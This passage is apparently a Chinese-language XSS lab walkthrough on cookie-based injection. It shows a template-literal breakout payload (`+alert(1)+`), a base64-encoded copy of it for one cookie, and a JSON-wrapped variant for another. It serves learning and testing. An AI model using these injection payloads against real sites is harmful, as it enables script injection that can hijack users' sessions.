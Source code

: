 
因为控制台修改Cookie后控制台的代码变为如下：

```
console.info("hello" + `UserAdmin:`+alert(1)+``);
```



### Cookie 中的 XSS（Base64-json）

也是一样：

![image-20250223155442801](../../_media/image-20250223155442801.png)

BP拦截发现：

```
Cookie: xCnameB64=T3JkaW5hcnlVc2Vy; xCname=UserAdmin
```

经过实验，前者就是真正的参数，使用了base64编码

所以将上一道题的payload进行编码：

```
`+alert(1)+`
```

```
YCthbGVydCgxKStg
```

即可弹窗



### Cookie 中的 XSS（Base64-JSON)

还是一样，真正的参数在向`xCnameB64J`

```
eyJuYW1lIjoieENuYW1lQjY0Si1PcmRpbmFyeVVzZXIifQ==
```

解码后的结果：

```
{"name":"xCnameB64J-OrdinaryUser"}
```



故直接构造：

```
{"name":"`+alert(1)+`"}
```
